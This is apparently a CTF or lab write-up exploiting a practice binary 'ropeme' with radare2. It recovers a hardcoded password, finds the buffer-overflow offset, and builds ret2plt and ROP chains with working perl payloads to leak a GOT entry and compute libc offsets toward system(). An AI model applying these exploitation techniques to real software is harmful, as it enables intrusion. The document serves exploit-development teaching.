 ========
Write-up
========

This writeup is made on linux using radare2 tools a lot. You may want to use
another platform or tools but I won't bother supporting them.

Exercise 1
==========

Using `strings ./ropeme` we find a line "admin42". It happens to be the
username.

Exercise 2
==========

You can trace calls to library functions with ltrace. This includes strcmp:

::

    $ ltrace ./ropeme admin42
    __libc_start_main(0x80485e8, 2, 0xff822c54, 0x8048650 <unfinished ...>
    strcmp("admin42", "admin42")                                         = 0
    puts("Enter password:"Enter password:
    )                                              = 16
    fflush(0xf76f3d60)                                                   = 0
    read(0test
    , "test\n", 512)                                               = 5
    strlen("\304\263\303\271\303\260\342\210\222\303\267<>[\303\227")    = 16
    strcmp("test\n",
    "\304\263\303\271\303\260\342\210\222\303\267<>[\303\227") = -1
    puts("Wrong password"Wrong password
    )                                               = 15
    +++ exited (status 1) +++


The password is "\304\263\303\271\303\260\342\210\222\303\267<>[\303\227". To
see it without the octal notation one can use printf:

::

    $ printf "\304\263\303\271\303\260\342\210\222\303\267<>[\303\227"
    ĳùð−÷<>[×


That explains why is didn't show up using "strings"!

Exercise 3
==========

Reading ltrace's output we can see that fgets is used to get user input
reading up to 512 chars from stdin. What happens if we really write 512
chars?

::

    $ perl -e 'print "A"x512' | ./ropeme admin42
      Segmentation fault      (core dumped) | ./ropeme admin42

Oh! This smells like a buffer overflow! To know where exactly we overwrite
the instruction pointer (eip) I'll use a De Bruijn sequence (I could guess
but this is faster). This is done using radare2 tools.

Here ragg2 will generate a 500-bytes long sequence with no repetitions as
hexadecimal values, rax2 will convert it into ascii values, and we put it in
the clipboard using xclip so that we are able to paste it later.

::

    $ ragg2 -P 500 | rax2 -s - | xclip

Radare2 is then used in debug mode with rarun2 to launch the program with an
argument. We could use gdb but... well... radare2 ^^

::

    $ r2 -d rarun2 program=./ropeme arg1=admin42
        ...
    [0x7f2b22a7ed80]> dc
    Debugging pid = 3482, tid = 1 now
    [0xf77a4b50]> dc
    Enter password:
    <paste>
    Wrong password
    [+] SIGNAL 11 errno=0 addr=0x41416641 code=1 ret=0
    [+] signal 11 aka SIGSEGV received 0

Here we have the address at which it tried to return: 0x41694141
Still in radare2 we convert it into an offset to know how much padding we
need:

::

    [0x41416641]> woO 0x41416641
    92

Let's try that!

::

    $ perl -e 'print "A"x92 . "B"x4' | xclip
    $ r2 -q -c "dc;dc" -d rarun2 program=ropeme arg1=admin42
        ...
    Enter password:
    <paste>
    Wrong password
    [+] SIGNAL 11 errno=0 addr=0x42424242 code=1 ret=0
    [+] signal 11 aka SIGSEGV received 0

It works! We have taken eip! We just have to redirect it to section printing
the winning message. Let's disassemble the function checking the password:

::

    $ r2 ropeme
    [0x080483e0]> aa
    [0x080483e0]> is | grep password
    vaddr=0x08048516 paddr=0x00000516 ord=070 fwd=NONE sz=210 bind=GLOBAL type=FUNC name=check_password
    [0x080483e0]> pdf @ sym.check_password
    ╒ (fcn) sym.check_password 210
    │           0x08048516    55             push ebp
    │           0x08048517    89e5           mov ebp, esp
    │           0x08048519    83ec78         sub esp, 0x78
    │           0x0804851c    83ec0c         sub esp, 0xc
    │           0x0804851f    68e7860408     push str.Enter_password:
    │           0x08048524    e877feffff     call sym.imp.puts
    │           0x08048529    83c410         add esp, 0x10
    │           0x0804852c    a1c4990408     mov eax, dword [obj.stdout__GLIBC_2.0]
    │           0x08048531    83ec0c         sub esp, 0xc
    │           0x08048534    50             push eax
    │           0x08048535    e856feffff     call sym.imp.fflush
    │           0x0804853a    83c410         add esp, 0x10
    │           0x0804853d    83ec04         sub esp, 4
    │           0x08048540    6800020000     push 0x200
    │           0x08048545    8d45a8         lea eax, [ebp-local_22]
    │           0x08048548    50             push eax
    │           0x08048549    6a00           push 0
    │           0x0804854b    e830feffff     call sym.imp.read
    │           0x08048550    83c410         add esp, 0x10
    │           0x08048553    85c0           test eax, eax
    │       ┌─< 0x08048555    7517           jne 0x804856e
    │       │   0x08048557    83ec0c         sub esp, 0xc
    │       │   0x0804855a    68f7860408     push str.Unable_to_get_the_password
    │       │   0x0804855f    e83cfeffff     call sym.imp.puts
    │       │   0x08048564    83c410         add esp, 0x10
    │       │   0x08048567    b801000000     mov eax, 1
    │      ┌──< 0x0804856c    eb78           jmp 0x80485e6
    │      │└─> 0x0804856e    c74597c4b3c3.  mov dword [ebp-local_26_1], 0xb9c3b3c4
    │      │    0x08048575    c7459bc3b0e2.  mov dword [ebp - 0x65], 0x88e2b0c3
    │      │    0x0804857c    c7459f92c3b7.  mov dword [ebp - 0x61], 0x3cb7c392
    │      │    0x08048583    c745a33e5bc3.  mov dword [ebp - 0x5d], 0x97c35b3e
    │      │    0x0804858a    c645a700       mov byte [ebp - 0x59], 0
    │      │    0x0804858e    83ec0c         sub esp, 0xc
    │      │    0x08048591    8d4597         lea eax, [ebp-local_26_1]
    │      │    0x08048594    50             push eax
    │      │    0x08048595    e826feffff     call sym.imp.strlen
    │      │    0x0804859a    83c410         add esp, 0x10
    │      │    0x0804859d    c64405a800     mov byte [ebp + eax - 0x58], 0
    │      │    0x080485a2    83ec08         sub esp, 8
    │      │    0x080485a5    6812870408     push str.________________
    │      │    0x080485aa    8d45a8         lea eax, [ebp-local_22]
    │      │    0x080485ad    50             push eax
    │      │    0x080485ae    e8bdfdffff     call sym.imp.strcmp
    │      │    0x080485b3    83c410         add esp, 0x10
    │      │    0x080485b6    85c0           test eax, eax
    │     ┌───< 0x080485b8    7517           jne 0x80485d1
    │     ││    0x080485ba    83ec0c         sub esp, 0xc
    │     ││    0x080485bd    6823870408     push str.Yeah__You_win_
    │     ││    0x080485c2    e8d9fdffff     call sym.imp.puts
    │     ││    0x080485c7    83c410         add esp, 0x10
    │     ││    0x080485ca    b800000000     mov eax, 0
    │    ┌────< 0x080485cf    eb15           jmp 0x80485e6
    │    │└───> 0x080485d1    83ec0c         sub esp, 0xc
    │    │ │    0x080485d4    6832870408     push str.Wrong_password
    │    │ │    0x080485d9    e8c2fdffff     call sym.imp.puts
    │    │ │    0x080485de    83c410         add esp, 0x10
    │    │ │    0x080485e1    b801000000     mov eax, 1
    │    └─└──> 0x080485e6    c9             leave
    ╘           0x080485e7    c3             ret



Ok, so given the disassembly the key section is at 0x080485bd. Let's try that:

::

    $ perl -e 'print "A"x92 . "\xbd\x85\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    Yeah! You win!
    Segmentation fault (core dumped)

Finally!


Exercise 4
==========

When calling another function, the caller (say `main`) pushes the arguments
on the stack (not always, see further) and uses the call opcode that pushes
the current address on the stack for later return and then jumps to the
sub-routine location.

The sub-routine then pushes the ebp address to define its own stack frame,
takes the arguments from the stack to store them in local variables (often
pushing them back or just stocking them in registers), does its thing, then
pops the stack (the ebp address) and returns to the address at the top of the
stack (our previous return address put there by call). The instruction
pointer is incremented and the program continues.

I left away the stack allocation process besides push/pop because it isn't
very relevent here. Also there are other calling conventions besides the
stack. In x86_64, as the registers are bigger and more numerous they are the
primary way to pass arguments.

So the stack look like that before entering puts:

::

    ^ [string address]
    | [return address]

Note that as the stack is decreasing, pushing puts data at the bottom of this
diagram which is the top of the stack (facing downward). Also I represented
it without really using the opcode "call", that's why there is the return
address.

For strcmp it is similar, but note that the arguments are pushed in reverse
order:

::

    ^ [str2   address]
    | [str1   address]
    | [return address]

Exercise 5
==========

To display the password we will hijack a call to puts(). Such a call means
the stack will look somewhat like that before the call:

::

    ^ [password    address]
    | [puts return address]
    | [puts        address]
    | [padding to overflow]

The address of puts is direct:

::

    $ rabin2 -s ropeme | grep puts
    vaddr=0x08048380 paddr=0x00000380 ord=004 fwd=NONE sz=16 bind=GLOBAL type=FUNC name=imp.puts

So [puts address] is 0x08048330. In the same way we find the password address:

::

    $ rabin2 -z ropeme
    ...
    vaddr=0x080486a2 paddr=0x000006a2 ordinal=004 sz=17 len=9 section=.rodata type=ascii string=ĳùð−÷<>[×
    ...

By the way note how rabin2 isn't troubled at all by the weird password.

So far our stack is something like: "80830408XXXXXXXXa2860408". Right now the
return address isn't really important, we will return to the end of the
check_password function, just before the return statement, at address
0x0804857d.

::

    # Stack wanted:
    #
    # ^ [password    address] = 0x080486a2
    # | [puts return address] = 0x0804857d
    # | [puts        address] = 0x08048380
    # | [padding to overflow] = "A" x 92

    $ perl -e 'print "A"x92 . "\x80\x83\x04\x08\x7d\x85\x04\x08\xa2\x86\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    ĳùð−÷<>[×
    Segmentation fault (core dumped)

Yeah!

Exercise 6
==========

We want to print an arbitrary message. The printing part can be done with
puts() but what about the "getting the message" part? The program provides
read(), and we can make use of it.

The read system call takes as argument a file descriptor, an address to write
to and a length. We will read from stdin (file descriptor 0). Our message
will be a traditional "Hello World!" which is of length 13 with the null
terminator.

So we need to call read, store our string somewhere, and call puts to print
it. The stack will look somewhat like:

::

    ^ [string address]
    | [end    address]
    | [string len    ]
    | [string address]
    | [stdin  fd     ]
    | [puts   address]
    | [read   address]
    | [padding       ]

However, if we do that when returning from write the argument for puts will
be stdin file descriptor! We need to find a way to clean the stack removing
the three arguments of write.

This is done using a gadget, a small but useful sequence of instructions
present at the end of a function. Here we want something to pop three
arguments off the stack. Let's use radare2 to find something like that.

::

    $ r2 ropeme
     -- Do you want to print 333.5K chars? (y/N)
    [0x08048360]> /R pop
        ...

      0x08048538             5b  pop ebx
      0x08048539             5e  pop esi
      0x0804853a             5f  pop edi
      0x0804853b             5d  pop ebp
      0x0804853c             c3  ret

        ...

Better than what we needed! We will only use the last three pops. Returning
to 0x08048539 will clear the stack of its three last elements then return
normally to the next function. I will refer to that address as pppr for
"pop pop pop ret". Our stack now looks like that:

::

    ^ [string address]
    | [end    address] = 0x0804857d
    | [puts   address] = 0x08048380
    | [string len    ] = 0x0000000e
    | [string address]
    | [stdin  fd     ] = 0x00000000
    | [pppr   address] = 0x08048539
    | [read   address] = 0x08048360
    | [padding       ] = 'A' x 92

The only thing we lack is an address to write to. We need to find a section
in memory which is more than 14 bytes large and has Read-Write permissions.
We can use radare2 for that:

::

    $ rabin2 -S ropeme | grep "perm=..rw"
    idx=17 vaddr=0x0804982c paddr=0x0000082c sz=4 vsz=4 perm=--rw- name=.init_array
    idx=18 vaddr=0x08049830 paddr=0x00000830 sz=4 vsz=4 perm=--rw- name=.fini_array
    idx=19 vaddr=0x08049834 paddr=0x00000834 sz=4 vsz=4 perm=--rw- name=.jcr
    idx=20 vaddr=0x08049838 paddr=0x00000838 sz=232 vsz=232 perm=--rw- name=.dynamic
    idx=21 vaddr=0x08049920 paddr=0x00000920 sz=4 vsz=4 perm=--rw- name=.got
    idx=22 vaddr=0x08049924 paddr=0x00000924 sz=36 vsz=36 perm=--rw- name=.got.plt
    idx=23 vaddr=0x08049948 paddr=0x00000948 sz=8 vsz=8 perm=--rw- name=.data
    idx=24 vaddr=0x08049950 paddr=0x00000950 sz=8 vsz=8 perm=--rw- name=.bss
    idx=30 vaddr=0x0804982c paddr=0x0000082c sz=292 vsz=4096 perm=m-rw- name=phdr1
    idx=31 vaddr=0x08048000 paddr=0x00000000 sz=52 vsz=52 perm=m-rw- name=ehdr

Most sections are too small... The .dynamic seems large enough to be
interesting though. We'll use it.

::

    ^ [string address] = 0x08049838
    | [end    address] = 0x0804857d
    | [puts   address] = 0x08048380
    | [string len    ] = 0x0000000e
    | [string address] = 0x08049838
    | [stdin  fd     ] = 0x00000000
    | [pppr   address] = 0x08048539
    | [read   address] = 0x08048360
    | [padding       ] = 'A' x 92

Let's try that!

::

    $ perl - <<EOF | ./ropeme admin42
    print "A" x 92
    . "\x60\x83\x04\x08"
    . "\x39\x85\x04\x08"
    . "\x00\x00\x00\x00"
    . "\x38\x98\x04\x08"
    . "\x0e\x00\x00\x00"
    . "\x80\x83\x04\x08"
    . "\x7d\x85\x04\x08"
    . "\x38\x98\x04\x08"
    EOF
    Enter password:
    [...]
    Wrong password
    Segmentation fault

Hmm... It didn't work... The reason is that the first call to read (to get
the password) reads 512 bytes from the standard input so it goes in the way
of the other call to read. The solution is to completely fill it and put our
input just after:

::
    ^ [padding       ] = 'B' x 388
    | [string address] = 0x08049838
    | [end    address] = 0x0804857d
    | [puts   address] = 0x08048380
    | [string len    ] = 0x0000000e
    | [string address] = 0x08049838
    | [stdin  fd     ] = 0x00000000
    | [pppr   address] = 0x08048539
    | [read   address] = 0x08048360
    | [padding       ] = 'A' x 92

    $ perl - <<EOF | ./ropeme admin42
    print "A" x 92
    . "\x60\x83\x04\x08"
    . "\x39\x85\x04\x08"
    . "\x00\x00\x00\x00"
    . "\x38\x98\x04\x08"
    . "\x0e\x00\x00\x00"
    . "\x80\x83\x04\x08"
    . "\x7d\x85\x04\x08"
    . "\x38\x98\x04\x08"
    . "B" x 388
    . "Hello World!\x00"
    EOF
    Enter password:
    [...]
    Wrong password
    Hello World!
    Segmentation fault

Working! That way we can chain function calls at will!

Exercise 7
==========

As strcmp comes from the libc it is dynamically loaded. That means that the
address of the real strcmp function isn't know at compile time. The jump is
made from the PLT section into the GOT section. To know at which address we
jump we just have to ask radare2:

::

    $ rabin2 -s ropeme | grep strcmp
    vaddr=0x08048350 paddr=0x00000350 ord=001 fwd=NONE sz=16 bind=GLOBAL type=FUNC name=imp.strcmp

So the strcmp address in the PLT is 0x08048310. Where does it jump after that?

::

    $ r2 -q -d -c 'dc;pd 1 @ 0x08048350' rarun2 program=ropeme arg1=admin42
        ...
    0x08048350    ff2530990408   jmp qword [rip + 0x8049930]   ; [0x10091c86:8]=-1

We now know that the jump in the GOT is done at the address 0x8049930 for
strcmp. At this address will be dynamically decided the address of the strcmp
function in the dynamically loaded libc. We can print it using our puts
payload from exercise 5:

::

    # Stack wanted:
    #
    # ^ [strcmp GOT  address] = 0x08049930
    # | [puts return address] = 0x0804857d
    # | [puts        address] = 0x08048380
    # | [padding to overflow] = "A" x 92

    $ perl -e 'print "A"x92 . "\x80\x83\x04\x08\x7d\x85\x04\x08\x30\x99\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    ��c�PB]�
    Segmentation fault (core dumped)

    $ perl -e 'print "A"x92 . "\x80\x83\x04\x08\x7d\x85\x04\x08\x30\x99\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    ��g�PBa�
    Segmentation fault (core dumped)

    $ perl -e 'print "A"x92 . "\x80\x83\x04\x08\x7d\x85\x04\x08\x30\x99\x04\x08"' | ./ropeme admin42
    Enter password: Wrong password
    ��k�PBe�
    Segmentation fault (core dumped)

The first 4 bytes of the oddly displayed line are our address. As you can see
the address changes from one call to the other. Let's use strace to see it
more clearly:

::

    $ perl -e 'print "A"x92 . "\x80\x83\x04\x08\x7d\x85\x04\x08\x30\x99\x04\x08"' |\
      strace -e write ./ropeme admin42
    [ Process PID=26818 runs in 32 bit mode. ]
    write(1, "Enter password:\n", 16Enter password:
    )       = 16
    write(1, "Wrong password\n", 15Wrong password
    )        = 15
    write(1, "\260Pn\367P\362g\367\n", 9�Pn�P�g�
    )   = 9
    --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41414141} ---
    +++ killed by SIGSEGV (core dumped) +++
    Segmentation fault

    $ printf "\260Pn\367" | xxd
    0000000: b050 6ef7                                .Pn.

So our address is 0xf76e50b0 in that instance.

The reason I used strace is because if we try piping ropeme's output to
another program (xxd for example in order to get directly an hexadecimal
representation) we won't get any output. The reason is that puts() won't
write directly to the pipe, the output is bufferized. This wouldn't be a
problem normally because all output is flushed at process exit, but as we
segfault we don't benefit from it. Strace is able to see the argument when
the call occurs so before buffering, that's why it works here.

There is another solution though: flushing manually the output. To do that we
will use the fflush function. This function will take a pointer to the stdout
file structure that we don't have... Meh, let's just call it in place:

::

    # Stack wanted:
    #
    # ^ [strcmp GOT  address] = 0x08049930
    # | [flushing    address] = 0x080484fc
    # | [puts        address] = 0x08048380
    # | [padding to overflow] = "A" x 92

    $ perl -e 'print "A"x92 . "\x80\x83\x04\x08\xfc\x84\x04\x08\x30\x99\x04\x08"' |\
      ./ropeme admin42 | xxd
    00000000: 456e 7465 7220 7061 7373 776f 7264 3a0a  Enter password:.
    00000010: 5772 6f6e 6720 7061 7373 776f 7264 0ab0  Wrong password..
    00000020: 7064 f750 125e f70a                      pd.P.^..
    Segmentation fault (core dumped)

There we are.

Exercise 8
==========

This address is interesting because the offset between two libc functions
will always be the same so we can compute the offset to between strcmp and
any other function and use it to determine the address of any other function.

We'll start by computing the offset between system and strcmp in the libc.
Here I take advantage of the fact that I know that the libc that is compiled
is the same than the one used by my system, in the real world you may want to
identify the serveur running and download its standard precompiled libc for
example.

::

    $ r2 /lib/libc-2.22.so
    [0x00020730]> is | grep =system
    vaddr=0x0003f890 paddr=0x0003f890 ord=5724 fwd=NONE sz=45 bind=UNKNOWN type=FUNC name=system
    [0x00020730]> is | grep =strcmp
    vaddr=0x0007f650 paddr=0x0007f650 ord=5510 fwd=NONE sz=60 bind=GLOBAL type=LOOS name=strcmp
    [0x00020730]> ? 0x0007f650 - 0x0003f890
    261568 0x3fdc0 0776700 255.4K 3000:0dc0 261568 11000000 261568.0 0.000000f 0.000000

So the offset from strcmp to system is -0x3fdc0.

Of course having it for a paste instance is quite useless, we must now find
a way to use it without quitting the process. There are two strategies:
either we stay within the program and build the address by using ROP gadgets
astuciously, either we consider use the program as a server, have it output
the address, compute the offset outside the process and then have the process
read the new address back.
